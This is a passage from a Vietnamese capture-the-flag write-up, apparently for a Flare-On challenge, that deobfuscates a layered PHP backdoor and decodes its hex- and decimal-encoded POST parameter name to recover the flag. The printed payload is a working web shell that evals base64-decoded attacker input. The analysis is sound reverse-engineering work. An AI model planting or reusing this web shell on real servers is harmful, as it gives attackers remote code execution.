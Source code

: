 ```
for i in range(0, len(order)):
    do_me=do_me + terms[order[i]]
print(do_me)
```
- Và kết quả là:
```
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```
- Nó lại bị obfuscation 1 lần nữa, mình sẽ sửa lại bằng tay
```
var1= if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }
var3=$code=base64_decode(var1);eval($code);;
var2="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval(var2(var3));
```
- Nhận thấy rằng nó thực thi các yêu cầu bị mã hoá (những chuỗi có dấu x sẽ được mã hoá bằng hex, những chuỗi không có sẽ được mã hoá bằng decimal hoặc octal)
- Bây giờ ta decode từng chuỗi 
```
decode = ""
inp = r'\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D'
inp_lst = inp.split('\\')
#print(inp_lst)
for index in inp_lst:
    if index != '':
        if index[0] == 'x':
            byte_data = bytes.fromhex(index[1:])
            ascii_string = byte_data.decode('ascii')
            decode = decode + ascii_string
        else:
            #print(index)
            decode = decode + chr(int(index, 10))
print(decode)
```
- Tại đây ta có flag
> a11DOTthatDOTjava5crapATflareDASHonDOTcom

> Flag : a11.that.java5crap@flare-on.com
